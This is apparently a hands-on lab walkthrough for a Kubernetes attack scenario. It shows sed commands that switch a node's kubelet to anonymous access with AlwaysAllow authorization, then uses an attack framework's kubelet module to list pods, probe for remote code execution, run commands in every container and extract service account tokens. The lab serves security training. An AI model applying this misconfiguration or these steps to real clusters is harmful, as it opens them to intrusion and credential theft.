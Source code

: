 #### Prepare the enviornment  


For this scenario we will need to do some changes for kubelet:  
```
if [ -f "/var/lib/kubelet/config.yaml" ]; then
	sed -i 's/    enabled: false/    enabled: true/g' /var/lib/kubelet/config.yaml
    sed -i 's/  mode: Webhook/  mode: AlwaysAllow/g' /var/lib/kubelet/config.yaml
    service kubelet restart
	echo "Kubelet config has been changed"
	else
	  echo "The file /var/lib/kubelet/config.yaml doesn't exist, does the cluster is up?"
fi
```{{execute HOST2}}   

After the change, check from the Master that you can communicate with kubelet without authentication:  
```
if [ `curl -sk  https://node01:10250/healthz` == "ok" ]; then
   echo "Kubelet is configured for anonymous connections"
   else
   echo "Kubelet is NOT configured"
fi
```{{execute T3}}  


#### Load the Kubelet module and run it

Load the kubelet attack module from terminal 1 by running `use module linux/go/kubeletAttack`{{execute T1}}.  

You can view all the information with `info`{{execute T1}} command.  
The module is set automatically to run on all the agents with this command, if it wasn't set it is possible by running `set Agent all`{{execute T1}}.   
We need to set the IP of the target machine, let's find the IP by running `ip addr show ens3  | awk '$1 == "inet" { print $2 }' | cut -d/ -f1`{{execute T3}} in `node1`.  
Now, take this IP address and type in the server `set Url https://<IP>:10250`, and replace `<IP>` with the IP address we received.  

The default command will run list the pods through kubelet, simply execute it with `run`{{execute T1}} and wait for the output.  

#### Scan for RCE    
We can also change the command by using `set Command rce`{{execute T1}} and `run`{{execute T1}} it.  

#### Run any command 
 
Change the command by using `set Command run -a whoami`{{execute T1}} and `run`{{execute T1}} it.   
It will run the `whoami` command on all the available containers.  

#### Scan for tokens
Change the command by using `set Command token`{{execute T1}} and `run`{{execute T1}} it.   
It will go over any available container and search for the mounted service account token of the container and decode it.    


